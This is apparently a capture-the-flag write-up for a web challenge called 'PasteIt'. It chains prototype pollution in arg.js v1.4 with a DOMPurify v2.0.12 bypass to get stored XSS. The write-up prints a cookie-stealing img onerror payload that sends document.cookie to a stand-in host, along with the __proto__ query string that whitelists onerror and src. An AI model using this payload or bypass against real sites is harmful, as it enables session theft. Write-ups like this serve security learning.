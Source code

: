 # Web - PasteIt
* Given source code and link to a website, lets say `http://target`.
* Flag is on the admin cookie.
* There is a hidden feature `Report to Admin` on `http://target/<notes_uid>?dev=true`.
* We can't do common XSS because there is `DOMPurify v2.0.12`. We can bypass `DOMPurify` but at first we need Prototype Pollution.
* Luckily, there is `arg.js v1.4` that we can use to perform Prototype Pollution.  
* The arg.js v1.4 is vulnerable to prototype pollution, check out this [vulnerable code](https://github.com/stretchr/arg.js/blob/c025436431d30404fb0ef686696d629d411b5ed9/src/arg.js#L47-L133) and this [awesome github repo](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md).
* Create a note with this payload : 
```
<img src=x onerror=fetch('htt'+'p://yoursite/?x='+document.cookie)>
```
Note: can't use https:// or http:// because makeHyperLink() function. Check out this part of `routes/index.js`.
```
...
router.get('/api/paste/:id', (req, res) => {
    try {
        db.getPaste(req.params.id)
        .then((data) => {
            if (data) {
                const paste = url_handler.makeHyperLink(data.value);
                return res.send({
                    "value": paste
                });
            }
...
```
And checkout this code from `helper/url_handler.js`
```
makeHyperLink(text) {
    // check if text contains a link
    if(text.includes("http") || text.includes("www.")) {
        // if it does, return the text with the link wrapped in an anchor tag
        return text.replace(/(http|www.)\S+/g, (match) => `<a class="text-blue-600 underline" href="${match}">${match}</a>`);
    }
    return text;
}
```
* After creating a note with payload above, our payload still can't work normally because there is Dompurify. So, we try to access that note and add `/?dev=true&__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src` to your URL.
* `__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src` will make Dompurify not filtering `onerror` and `src` attribute. So, our payload can work normally.
* Then, report to admin.